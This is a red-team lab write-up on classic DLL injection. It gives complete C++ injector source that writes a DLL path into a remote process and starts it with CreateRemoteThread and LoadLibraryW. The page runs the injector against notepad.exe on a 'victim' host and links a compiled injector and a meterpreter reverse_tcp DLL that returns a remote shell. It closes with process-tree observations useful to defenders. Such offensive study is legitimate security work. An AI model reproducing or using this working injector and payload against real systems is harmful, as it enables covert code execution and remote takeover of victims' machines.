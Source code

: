 ```yaml
---
description: Injecting DLL into a remote process.
---
```


# DLL Injection

This lab attempts a classic DLL injection into a remote process.

## Execution

{% code-tabs %}
{% code-tabs-item title="inject-dll.cpp" %}
```cpp
int main(int argc, char *argv[]) {
	HANDLE processHandle;
	PVOID remoteBuffer;
	wchar_t dllPath[] = TEXT("C:\\experiments\\evilm64.dll");
	
	printf("Injecting DLL to PID: %i\n", atoi(argv[1]));
	processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
	remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof dllPath, MEM_COMMIT, PAGE_READWRITE);	
	WriteProcessMemory(processHandle, remoteBuffer, (LPVOID)dllPath, sizeof dllPath, NULL);
	PTHREAD_START_ROUTINE threatStartRoutineAddress = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle(TEXT("Kernel32")), "LoadLibraryW");
	CreateRemoteThread(processHandle, NULL, 0, threatStartRoutineAddress, remoteBuffer, 0, NULL);
	CloseHandle(processHandle); 
	
	return 0;
}
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Compiling the above code and executing it with a supplied argument of `4892` which is a PID of the notepad.exe process on the victim system:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
PS C:\experiments\inject1\x64\Debug> .\inject1.exe 4892
Injecting DLL to PID: 4892
```
{% endcode-tabs-item %}
{% endcode-tabs %}

After the DLL is successfully injected, the attacker receives a meterpreter session from the injected process and its privileges:

![](../../.gitbook/assets/inject-dll-shell.png)

{% file src="../../.gitbook/assets/inject1.exe" caption="DLL injector.exe" %}

{% file src="../../.gitbook/assets/evilm64.dll" caption="c:\\experiments\\evilm64.dll \(windows/x64/meterpreter/reverse\_tcp\)" %}

## Observations

Note how the notepad spawned rundll32 which then spawned a cmd.exe because of the meterpreter payload \(and attacker's `shell` command\) that got executed as part of the injected evilm64.dll into the notepad process:

![](../../.gitbook/assets/inject-dll.png)

![](../../.gitbook/assets/inject-dll-procmon.png)

{% embed url="https://msdn.microsoft.com/en-us/library/windows/desktop/ms683212\(v=vs.85\).aspx" %}

{% embed url="https://msdn.microsoft.com/en-us/library/windows/desktop/ms684175\(v=vs.85\).aspx" %}



